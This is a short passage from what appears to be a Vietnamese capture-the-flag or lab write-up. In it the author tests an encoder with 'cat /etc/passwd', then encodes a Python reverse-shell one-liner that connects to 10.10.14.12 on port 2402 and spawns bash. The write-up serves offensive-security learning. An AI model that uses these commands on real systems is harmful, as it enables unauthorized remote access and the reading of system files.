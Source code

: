 ```python

print(payload)
```

Thử sử dụng command "cat /etc/passwd" và đối chiếu với kết quả trong payload mẫu và nó trùng khớp, nghĩa là code của tôi đã đúng.

Tôi sẽ dùng payload của python để RCE về máy mình

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",2402));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

```python
┌──(neo㉿kali)-[~]
└─$ python test.py
Enter message to encode:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",2402));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
Ecoded string (in ASCII):

```